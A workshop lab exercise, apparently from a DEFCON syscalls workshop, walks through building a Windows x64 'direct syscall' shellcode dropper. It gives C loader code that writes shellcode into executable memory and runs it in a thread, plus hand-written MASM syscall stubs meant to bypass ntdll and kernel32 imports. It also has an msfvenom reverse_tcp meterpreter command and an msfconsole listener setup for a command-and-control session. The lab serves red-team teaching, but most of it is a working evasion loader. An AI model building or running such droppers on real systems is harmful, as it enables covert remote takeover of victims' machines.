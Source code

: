 ## LAB Exercise 4: Low Level Dropper-Direct Syscall
In this exercise we will make the second modification to the reference dropper, create the direct syscall dropper and implement the required syscalls or syscall stubs from each of the four native functions directly into the assembly (dropper). We call this the Low Level Direct Syscall Dropper, or syscall dropper for short. 
![low_level_dropper_principal](https://user-images.githubusercontent.com/50073731/235438881-e4af349a-0109-4d8e-80e2-730915c927f6.png)

## Exercise 4 Tasks:
### Creating the Direct Syscall Dropper 
1. Download the Syscall Dropper POC from the Code section of this chapter.
2. Most of the code is already implemented in the POC. But take a look at the .asm file and add the missing assembler code for the remaining three native APIs following the scheme of the already implemented code for the NTallocateVirtualMemory native API. 
3. Create x64 calc shellcode with msfvenom, copy it to the POC, compile it and run it for the first time. Check if the calc.exe spawns correctly. 
4. Create a staged x64 meterpreter shellcode with msfvenom and copy it to the POC or replace the calc shellcode with it.  
5. Compile the POC as a x64 release. 
6. Create and run a staged x64 meterpreter listener using msfconsole.
7. Run your compiled .exe and check that a stable command and control channel opens. 
### Analysing the Direct Syscall Dropper
8. Use the Visual Studio **dumpbin** tool to analyse the syscall dropper. Are there any Win32 APIs being imported from kernel32.dll? Is the result what you expected?  
9. Use **x64dbg** to debug or analyse the dropper. 
     - Check which Win32 APIs and native APIs are being imported. If they are imported, from which module or memory location are they imported? Is the result what you expected?
     - Check from which module or memory location the syscalls for the four APIs used are executed. Is the result what you expected?


## Visual Studio
You can download the POC from the code section of this chapter. The code works as follows, shellcode declaration is the same as before in both droppers.
<details>
    
```
// Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83";
```
    
</details>


The main code of the direct syscall dropper looks like the following and is already implemented in the POC. Again, we use the same native APIs to allocate memory, write memory, create a new thread and wait for exit.
<details>
<summary>Code</summary>
    
```
#include <iostream>
#include <Windows.h>
#include "syscalls.h"

int main() {
    // Insert Meterpreter shellcode
    unsigned char code[] = "\xfc\x48\x83...";

    // Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = NULL;
    SIZE_T size = sizeof(code);
    NtAllocateVirtualMemory(GetCurrentProcess(), &exec, 0, &size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region
    SIZE_T bytesWritten;
    NtWriteVirtualMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Execute the shellcode in memory using a new thread
    // Pass the address of the shellcode as the thread function (StartRoutine) and its parameter (Argument)
    HANDLE hThread;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), exec, exec, FALSE, 0, 0, 0, NULL);

    // Wait for the end of the thread to ensure the shellcode execution is complete
    NtWaitForSingleObject(hThread, FALSE, NULL);


    // Return 0 as the main function exit code
    return 0;
}
```
    
</details>

    
### Header File
Unlike the mid-level dropper (NTAPIs), we **no longer ask ntdll.dll** for the function definition of the native APIs we use. But we still want to use the native functions, so we need to define or **directly implement** the structure for all four native functions in a header file. In this case, the header file should be called **syscalls.h**. The syscalls.h file does not currently exist in the syscall POC folder, your task is to add a new header file named syscalls.h and implement the required code. The code for the syscalls.h file can be found in the code section below. You will also need to include ``syscalls.h`` in the main C code. Additional information if you want to check the function definition manually should be available in the Microsoft documentation, e.g. for [NtWriteVirtualMemory] (https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntallocatevirtualmemory).

<details>
<summary>Code</summary>

```
#ifndef _SYSCALLS_H  // If _SYSCALLS_H is not defined then define it and the contents below. This is to prevent double inclusion.
#define _SYSCALLS_H  // Define _SYSCALLS_H

#include <windows.h>  // Include the Windows API header

#ifdef __cplusplus   // If this header file is included in a C++ file, then this section will be true
extern "C" {         // This is to ensure that the names of the functions are not mangled by the C++ compiler and are in C linkage format
#endif

    // The type NTSTATUS is typically defined in the Windows headers as a long.
    typedef long NTSTATUS;  // Define NTSTATUS as a long
    typedef NTSTATUS* PNTSTATUS;  // Define a pointer to NTSTATUS

    // Declare the function prototype for NtAllocateVirtualMemory
    extern NTSTATUS NtAllocateVirtualMemory(
        HANDLE ProcessHandle,    // Handle to the process in which to allocate the memory
        PVOID* BaseAddress,      // Pointer to the base address
        ULONG_PTR ZeroBits,      // Number of high-order address bits that must be zero in the base address of the section view
        PSIZE_T RegionSize,      // Pointer to the size of the region
        ULONG AllocationType,    // Type of allocation
        ULONG Protect            // Memory protection for the region of pages
    );

    // Declare the function prototype for NtWriteVirtualMemory
    extern NTSTATUS NtWriteVirtualMemory(
        HANDLE ProcessHandle,     // Handle to the process in which to write the memory
        PVOID BaseAddress,        // Pointer to the base address
        PVOID Buffer,             // Buffer containing data to be written
        SIZE_T NumberOfBytesToWrite, // Number of bytes to be written
        PULONG NumberOfBytesWritten // Pointer to the variable that receives the number of bytes written
    );

    // Declare the function prototype for NtCreateThreadEx
    extern NTSTATUS NtCreateThreadEx(
        PHANDLE ThreadHandle,        // Pointer to a variable that receives a handle to the new thread
        ACCESS_MASK DesiredAccess,   // Desired access to the thread
        PVOID ObjectAttributes,      // Pointer to an OBJECT_ATTRIBUTES structure that specifies the object's attributes
        HANDLE ProcessHandle,        // Handle to the process in which the thread is to be created
        PVOID lpStartAddress,        // Pointer to the application-defined function of type LPTHREAD_START_ROUTINE to be executed by the thread
        PVOID lpParameter,           // Pointer to a variable to be passed to the thread
        ULONG Flags,                 // Flags that control the creation of the thread
        SIZE_T StackZeroBits,        // A pointer to a variable that specifies the number of high-order address bits that must be zero in the stack pointer
        SIZE_T SizeOfStackCommit,    // The size of the stack that must be committed at thread creation
        SIZE_T SizeOfStackReserve,   // The size of the stack that must be reserved at thread creation
        PVOID lpBytesBuffer          // Pointer to a variable that receives any output data from the system
    );

    // Declare the function prototype for NtWaitForSingleObject
    extern NTSTATUS NtWaitForSingleObject(
        HANDLE Handle,          // Handle to the object to be waited on
        BOOLEAN Alertable,      // If set to TRUE, the function returns when the system queues an I/O completion routine or APC for the thread
        PLARGE_INTEGER Timeout  // Pointer to a LARGE_INTEGER that specifies the absolute```c
        // or relative time at which the function should return, regardless of the state of the object
    );

#ifdef __cplusplus  // End of the 'extern "C"' block if __cplusplus was defined
}
#endif

#endif // _SYSCALLS_H  // End of the _SYSCALLS_H definition
  
```
    
</details>
    
<details>
<summary>Solution</summary>   
    <p align="center">
<img width="500" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/5fbb39c6-be30-4641-8652-6b98e478e17f"> 
    </p>
    <p align="center">   
    <img width="800" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/d116e34d-8bea-4d4b-a437-a27594218a5b">
    </p>
    <p align="center">
    <img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/4b3e7f58-b6c1-492a-9516-46dcf3af942c">
    </p>
</details>     
    

### Assembly Instructions
Furthermore, we do not want to ask ntdll.dll for the syscall stub or the contents of the syscall stub (assembly instructions ``mov r10, rcx``, ``mov eax, SSN`` etc.) of the native functions we use, instead we want to manually implement the necessary assembly code in the assembly itself. As mentioned above, instead of using a tool like SysWhispers3 to create the necessary assembly instructions, for the best learning experience, we will manually implement the assembly code in our syscall POC. To do this, you will find a file called ``syscalls.asm`` in the syscall dropper POC directory, which contains some of the required assembler code. The code needed to implement the syscall stub in syscalls.asm looks like this. It is your task to add the ``syscalls.asm`` file as a resource to the syscall dropper project and complete the assembler code or add the syscall stub for the other three missing native APIs ``NtWriteVirtualMemory``, ``NtCreateThreadEx`` and ``NtWaitForSingleObject``. It is one of your tasks to complete the missing assembler code.

<details>
<summary>Code</summary>

```
.CODE  ; Start the code section
; Procedure for the NtAllocateVirtualMemory syscall
NtAllocateVirtualMemory PROC
    mov r10, rcx                                    ; Move the contents of rcx to r10. This is necessary because the syscall instruction in 64-bit Windows expects the parameters to be in the r10 and rdx registers.
    mov eax, 18h                                    ; Move the syscall number into the eax register.
    syscall                                         ; Execute syscall.
    ret                                             ; Return from the procedure.
NtAllocateVirtualMemory ENDP     
END  ; End of the module    
```
    
</details>

If you are unable to complete the assembly code at this time, you can use the assembly code from the solution and paste it into the ``syscalls.asm`` file in the **syscall dropper POC**. **Note** that the syscalls IDs are for Windows 10 Enterprise 22H2 and may not work for your target. You may need to replace the syscalls IDs with the correct syscalls IDs for your target Windows version.
    
<details>
    <summary>Solution</summary>

```
.CODE  ; Start the code section
; Procedure for the NtAllocateVirtualMemory syscall
NtAllocateVirtualMemory PROC
    mov r10, rcx                                    ; Move the contents of rcx to r10. This is necessary because the syscall instruction in 64-bit Windows expects the parameters to be in the r10 and rdx registers.
    mov eax, 18h                                    ; Move the syscall number into the eax register.
    syscall                                         ; Execute syscall.
    ret                                             ; Return from the procedure.
NtAllocateVirtualMemory ENDP                     	; End of the procedure.

; Similar procedures for NtWriteVirtualMemory syscalls
NtWriteVirtualMemory PROC
    mov r10, rcx
    mov eax, 3AH
    syscall
    ret
NtWriteVirtualMemory ENDP

; Similar procedures for NtCreateThreadEx syscalls
NtCreateThreadEx PROC
    mov r10, rcx
    mov eax, 0C2h
    syscall
    ret
NtCreateThreadEx ENDP

; Similar procedures for NtWaitForSingleObject syscalls
NtWaitForSingleObject PROC
    mov r10, rcx
    mov eax, 4
    syscall
    ret
NtWaitForSingleObject ENDP

END  ; End of the module
```
    
</details>

    
    
### Microsoft Macro Assembler (MASM)
We have already implemented all the necessary assembler code in the syscalls.asm file. But in order for the code to be interpreted correctly within the syscall POC, we need to do a few things. These steps are not done in the downloadable POC and must be done manually. First, we need to enable the Microsoft Macro Assembler (.masm) option in Build Dependencies/Build Customisations.
<details>
<summary>Solution</summary> 
<p align="center">
<img width="1278" alt="image" src="https://user-images.githubusercontent.com/50073731/235457590-371f3519-b7cf-483d-9c1c-6bfd6368be42.png">
<img width="590" alt="image" src="https://user-images.githubusercontent.com/50073731/235457782-780d2136-30d7-4e87-a022-687ed2557b33.png">
</details>

Furthermore we need to set the Item Type of the syscalls.asm file to Microsoft Macro Assembler, otherwise we will get an unresolved symbol error in the context of the native APIs used in the direct syscall dropper. Furthermore we set Excluded from Build to no and Content to yes. 
<details>
<summary>Solution</summary> 
    <p align="center">
<img width="950" alt="image" src="https://user-images.githubusercontent.com/50073731/235471947-4bcd23fc-5093-4f4d-adc8-eb3ef36f139f.png">    
<img width="1237" alt="image" src="https://user-images.githubusercontent.com/50073731/235458968-e330799e-51ff-46bf-97ab-c7d3be7ea079.png">
<img width="778" alt="image" src="https://user-images.githubusercontent.com/50073731/235459219-4387dc48-56f8-481c-b978-1b786843a836.png">
    </p>
</details>     

    

## Meterpreter Shellcode
Again, we will create our meterpreter shellcode with msfvenom in Kali Linux. To do this, we will use the following command and create x64 staged meterpreter shellcode.
<details>
    
 **kali>**   
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IPv4_Redirector_or_IPv4_Kali LPORT=80 -f c > /tmp/shellcode.txt
```
<p align="center">
<img width="800" alt="image" src="https://user-images.githubusercontent.com/50073731/235358025-7267f8c6-918e-44e9-b767-90dbd9afd8da.png">
</p>

The shellcode can then be copied into the Low-Level-Dropper poc by replacing the placeholder at the unsigned char, and the poc can be compiled as an x64 release.<p align="center">
<img width="600" alt="image" src="https://user-images.githubusercontent.com/50073731/235414557-d236582b-5bab-4754-bd12-5f7817660c3a.png">
</p>
</details>    


## MSF-Listener
Before we test the functionality of our Low-Level-Dropper, we need to create a listener within msfconsole.
<details>
    
**kali>**
```
msfconsole
```
**msf>**
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IPv4_Redirector_or_IPv4_Kali
set lport 80 
set exitonsession false
run
```
<p align="center">
<img width="600" alt="image" src="https://user-images.githubusercontent.com/50073731/235358630-09f70617-5f6e-4f17-b366-131f8efe19d7.png">
</p>
</details>
 
    
Once the listener has been successfully started, you can run your compiled Low-Level-Dropper.exe. If all goes well, you should see an incoming command and control session. 
<details>
    
<p align="center">
<img width="800" alt="image" src="https://user-images.githubusercontent.com/50073731/235369228-84576762-b3b0-4cf7-a265-538995d42c40.png">
</p>
</details>
        

    
## Low-Level-Dropper analysis: dumpbin 
The Visual Studio tool dumpbin can be used to check which Windows APIs are imported via kernel32.dll. The following command can be used to check the imports. Which results do you expect?
<details>    
    
**cmd>**
```
cd C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
dumpbin /imports low_level.exe
```
</details>    

<details>
    <summary>Solution</summary>  
    
**No imports** from the Windows APIs VirtualAlloc, WriteProcessMemory, CreateThread, and WaitForSingleObject from kernel32.dll. This was expected and is correct.
<p align="center">
<img width="1023" alt="image" src="https://user-images.githubusercontent.com/50073731/235473764-c85ccc73-a1cb-403d-8162-172146375d96.png">
</p>
</details>   
    
    
## Low-Level-Dropper analysis: x64dbg 
As a first step, we want to validate which APIs (Win32 or Native) are being imported and from which module or memory location they are being imported. Remember that in the syscall dropper we no longer use Win32 APIs in the code and have implemented the structure for the native functions directly in the assembly. What results do you expect?
<details>
    <summary>Solution</summary>
     By checking the imported symbols in our syscall dropper, we should be able to see that again the Win32 APIs ``VirtualAlloc``, ``WriteProcessMemory``, ``CreateThread`` and ``WaitForSingleObject`` are no longer imported by kernel32.dll, or are no longer imported in general. 
     <p align="center">
<img width="600" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/2fd0e78c-db42-4338-b943-5a198e62c7a1">
     </p>  
</details>     
     
Using x64dbg we want to validate from which module and location the respective system calls are executed in the context of the used Windows APIs -> native APIs?
Remember, now we have not implemented system calls or system call stubs directly in the dropper. What results would you expect?
<details>
    <summary>Solution</summary>
    
1. Open or load your Low-Level-Dropper.exe into x64dbg
2. Go to the Symbols tab, in the **left pane** in the **Modules column** select or highlight your **Low-Level-Dropper.exe**, in the **right pane** in the **Symbols column** filter for the first native API **NtAllocateVirtualMemory**, right click and **"Follow in Dissassembler"**. To validate the other three native APIs, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject, just **repeat this procedure**. Compared to the High-Level-Dropper and the Medium-Level-Dropper we can see that the symbols for the used native APIs are implemented directly in the dropper itself and not imported from the ntdll.dll.
    
<p align="center">    
<img width="979" alt="image" src="https://user-images.githubusercontent.com/50073731/235481553-012459f5-1284-44ed-b3ed-2b04bfcccd3b.png">
</p>
    
As expected, we can observe that the corresponding system calls for the native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx, NtWaitForSingleObject are no longer 
imported from the .text section in the ntdll.dll module. Instead the syscalls or syscalls stubs are directly implemtented into the .text section of the Low-Level-Dropper itself.
    
<p align="center">    
<img width="990" alt="image" src="https://user-images.githubusercontent.com/50073731/235482389-35cd8c12-593e-4089-b082-8eaf2ba6636a.png"></p>    
</details>


## Summary:
- Made transition from medium to low level or from Native APIs to direct syscalls
- Dropper imports no longer Windows APIs from kernel32.dll
- Dropper imports no longer Native APIs from ntdll.dll
- Syscalls or syscall stubs are "implemented" directly into .text section of .exe
